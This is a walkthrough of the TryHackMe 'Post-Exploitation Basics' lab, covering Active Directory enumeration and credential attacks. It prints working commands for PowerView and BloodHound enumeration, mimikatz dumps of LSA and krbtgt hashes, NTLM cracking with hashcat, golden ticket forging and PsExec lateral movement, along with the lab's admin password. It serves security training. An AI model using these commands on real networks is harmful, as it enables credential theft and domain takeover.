 # Post-Exploitation Basics

**Room Link:** [https://tryhackme.com/room/postexploit](https://tryhackme.com/room/postexploit)



## Presteps for Lab

### SharpHound Installation

SharpHound version on the box is too old for the current version of Bloodhound so I had to update it.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git

scp -r BloodHound/Collectors/SharpHound.ps1 Administrator@$VICTIM:C:/Users/Administrator/
Password: P@$$W0rd
```

Added this line to SharpHound.ps1 before transfering so I could run the command right away

<figure><img src="../../.gitbook/assets/image (3) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
powershell -ep bypass
.\SharpHound.ps1
```

### BloodHound Installation

```
apt-get install bloodhound
neo4j console
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Powerview

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```



**Victim**

Run below to be able to run PowerView commands.

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
```

Enumerate the domain users.

```
Get-NetUser | select cn
```

<figure><img src="../../.gitbook/assets/image (87) (1).png" alt=""><figcaption></figcaption></figure>

Enumerate the domain groups.

```
Get-NetGroup -GroupName *admin*
```

<figure><img src="../../.gitbook/assets/image (4) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Find Shared folders.

```
Invoke-ShareFinder
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Get Operating systems on the network.

```
Get-NetComputer -fulldata | select operatingsystem
```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Bloodhound

Setup and get loot with Bloodhound.

**Victim**

```
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```



Transfer Bloodhound results back to Kali. SCP can be used in this case

**Kali**

```
scp Administrator@$VICTIM:C:/Users/Administrator/20230212071833_loot.zip loot.zip
Password: P@$$W0rd
```

### Mapping the network w/ BloodHound

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (6) (8) (1).png" alt=""><figcaption></figcaption></figure>

Find all Domain Admins

<figure><img src="../../.gitbook/assets/image (15) (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (84) (1).png" alt=""><figcaption></figcaption></figure>

List all Kerberostable accounts

<figure><img src="../../.gitbook/assets/image (85) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Dumping hashes w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

**Victim**

```
cd Downloads && mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /patch
```

<figure><img src="../../.gitbook/assets/image (13) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Copy to Kali output back to Kali

![](<../../.gitbook/assets/image (3) (7).png>)

Output only the hashes and remove all duplicates into a new file.

**Kali**

```
cat hashes.txt | grep NTLM | awk -F ":" '{print $2}' | grep "\S" | sed 's/^[ \t]*//'  | sort | uniq > hash.txt
```

<figure><img src="../../.gitbook/assets/image (1) (2) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (14) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Golden Ticket Attacks w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

### Dump the krbtgt Hash

**Victim**

```
cd downloads && mimikatz.exe
```

This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket. Take note of what is outlined in red you'll need it to create the golden ticket.

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

<figure><img src="../../.gitbook/assets/image (16) (6) (1).png" alt=""><figcaption></figcaption></figure>

### Create a Golden Ticket

**Victim - Mimikatz**

```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```

<figure><img src="../../.gitbook/assets/image (11) (5) (1).png" alt=""><figcaption></figcaption></figure>

### Use the Golden Ticket to access other machine

This will open a new command prompt with elevated privileges to all machines.Access other Machines! - You will now have another command prompt with access to all other machines on the network.&#x20;

**Victim - Mimikatz**

```
misc::cmd
```

This doesn't actually work. Because of how tryhackme is setup but you would then be able to access other machines. In the example below you'd need to find out what other machines exists to pull this off.

**Victim**

```
dir \\Desktop-1\c$
PsExec.exe \\Desktop-1 cmd.exe
```

<figure><img src="../../.gitbook/assets/image (17) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Server Manager

**Kali**

```
rdesktop -d CONTROLLER -u Administrator $VICTIM
Password: P@$$W0rd
```

Open Active Directory

<figure><img src="../../.gitbook/assets/image (1) (1) (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (3) (1).png" alt=""><figcaption></figcaption></figure>
